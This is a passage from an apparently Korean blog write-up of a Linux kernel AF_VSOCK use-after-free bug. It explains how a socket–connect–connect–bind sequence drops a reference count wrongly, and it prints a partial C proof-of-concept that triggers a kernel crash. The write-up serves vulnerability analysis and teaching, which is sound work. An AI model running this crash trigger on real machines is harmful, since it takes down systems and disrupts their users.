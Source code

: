 결과적으로 의도치 않은 객체 해제로 UAF가 발생하게 됩니다.

# PoC

PoC는 <a href="https://hoefler.dev/articles/attachments/crash.c">여기</a>에서 확인할 수 있습니다. hoefler님께서 커밋 로그에 기록된 PoC를 살짝 수정하여 동작이 가능한 바이너리로 컴파일할 수 있게 수정했다합니다. 하하

PoC는 이해하기 쉽게 작성되어있어서 앞선 과정만 이해했다면 크게 무리 없이 이해할 수 있습니다. socket create → connect → connect → bind 의 순으로 함수를 호출하게되고 앞서 알아본 과정으로 레퍼런스 카운트의 잘못된 감소로 커널 크래시가 발생하게 됩니다.
```c
...
int main(void) {
...
    // wait for input
    puts("Setup Finished...");
    getchar();

	s = socket(AF_VSOCK, SOCK_STREAM, 0);
	if (s < 0) {
		perror("socket");
		exit(EXIT_FAILURE);
	}

	if (!connect(s, (struct sockaddr *)&addr, alen)) {
		fprintf(stderr, "Unexpected connect() #1 success\n");
		exit(EXIT_FAILURE);
	}
	// connect() #1 failed: transport set, sk in unbound list.

	addr.svm_cid = VMADDR_CID_NONEXISTING;
    addr.svm_port = VMADDR_PORT_ANY;
	if (!connect(s, (struct sockaddr *)&addr, alen)) {
		fprintf(stderr, "Unexpected connect() #2 success\n");
		exit(EXIT_FAILURE);
	}
	// connect() #2 failed: transport unset, sk ref dropped?

    // wait for input
    puts("Press for Crash...");
    getchar();

	// Vulnerable system may crash now. [USE THE DANGLING POINTER]
	bind(s, (struct sockaddr *)&addr, alen);

    // wait for input
    getchar();

	close(s);
	while (i--)
		close(sockets[i]);
}
```
